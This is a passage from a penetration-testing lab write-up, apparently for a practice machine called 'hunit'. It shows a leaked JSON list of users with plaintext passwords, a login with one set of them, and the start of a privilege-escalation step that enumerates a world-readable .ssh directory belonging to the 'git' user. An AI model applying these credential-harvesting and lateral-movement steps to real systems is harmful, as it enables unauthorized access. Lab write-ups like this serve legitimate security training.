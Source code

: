 ```
    "lastname": "Ademola",
    "description": "Admin",
    "id": 6
  },
  {
    "login": "jwinters",
    "password": "KTuGcSW6Zxwd0Q",
    "firstname": "Julie",
    "lastname": "Winters",
    "description": "Editor",
    "id": 7
  },
  {
    "login": "jvargas",
    "password": "OuQ96hcgiM5o9w",
    "firstname": "James",
    "lastname": "Vargas",
    "description": "Editor",
    "id": 10
  }
]
```

We can then login using the credentials for `dademola`:

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Exposed SSH Key --> Git User

There are other users present on this machine:

```
[dademola@hunit home]$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Nov  5  2020 .
drwxr-xr-x 18 root     root     4096 Nov 10  2020 ..
drwx------  5 dademola dademola 4096 Jan 15  2021 dademola
drwxr-xr-x  4 git      git      4096 Nov  5  2020 git
```

For some reason, the `git` user's `.ssh` file is readable by all:

```
[dademola@hunit git]$ ls -la
total 28
drwxr-xr-x 4 git  git  4096 Nov  5  2020 .
drwxr-xr-x 4 root root 4096 Nov  5  2020 ..
-rw------- 1 git  git     0 Jan 15  2021 .bash_history
-rw-r--r-- 1 git  git    21 Aug  9  2020 .bash_logout
-rw-r--r-- 1 git  git    57 Aug  9  2020 .bash_profile
-rw-r--r-- 1 git  git   141 Aug  9  2020 .bashrc
drwxr-xr-x 2 git  git  4096 Nov  5  2020 .ssh
drwxr-xr-x 2 git  git  4096 Nov  5  2020 git-shell-commands

[dademola@hunit .ssh]$ ls -la
total 20
drwxr-xr-x 2 git  git  4096 Nov  5  2020 .
```